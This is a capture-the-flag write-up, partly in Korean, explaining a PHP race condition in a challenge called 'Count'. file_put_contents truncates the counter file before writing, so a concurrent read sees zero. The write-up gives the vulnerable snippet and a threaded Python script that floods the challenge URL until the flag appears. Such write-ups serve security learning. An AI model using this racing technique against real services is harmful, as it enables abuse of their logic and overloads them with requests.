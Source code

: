 # Count (Web)

-----
This challenge is simple race condition in php
php has functions called `file_get_contents` and `file_put_contents`

`file_put_contents` function is accepts four args. (can $flags, $context args be omitted)
```c
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )
```
This function is identical to calling fopen(), fwrite() and fclose() successively to write data to a file.  
  
영어로 쓰다가 힘들어서 그냥 한국어로 쓴다.  
  
`file_put_contents`에서 `flags` 인자에 따로 값을 주지 않으면 기본 값은 `0`이다.  
[php 소스](https://github.com/php/php-src "php 소스")에서 `ext/standard/file.c`를 열어서 들여다보면 `flags`가 0일때 모드는 `wb` 모드이다.  
즉, 기존에 abc라는 파일이 있고 `file_put_contents`로 `file_put_contents('abc', 'asdf');` 이렇게 쓴다면  
기존 abc에 있던 내용은 다 지워지고 `asdf`라는 내용이 들어간다.  
  
이 문제는 이러한 특징을 이용한 레이스 컨디션 문제다.  

```php
$cnt = (int)file_get_contents('cnt-file');

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents('cnt-file' $cnt);

if($cnt == 1) {
    die($flag);
}
```
위 소스는 문제 소스중 일부분이다.  
`$cnt`의 초기값은 5다. (cnt-file에 있는 값이 5)  

새로고침할 때마다 `$cnt`가 1씩 증가하고 증가한 값을 cnt-file에 쓴다.  
그리고 증가하다가 30이 되면 10으로 초기화한다.  

위에서 설명한 `file_put_contents`의 특징을 모르는 상태라면 말도 안되는 코드라고 생각할 수 있다.  
하지만 이제 `file_put_contents`의 특징을 알기 때문에 `file_put_contents`로 값을 쓸 때 잠깐동안 지워지는 그 순간을 노리면 된다.  

exploit.py  

```python
import requests
import threading
# made by munsiwoo

def request(sandbox) :
	global response
	uri = 'http://game.withphp.com/ouya/sandbox/' + sandbox
	response = requests.get(uri).text

if __name__ == '__main__' :
	sandbox = '80e30ab2318c6a531cdde54c009a54ca/'
	response = ''

	while True :
		threading.Thread(target=request, args=(sandbox,)).start()
		if(response.find('Sunrin{') != -1) : # flag format is Sunrin{...}
			print(response)
			break

	print('End')

```
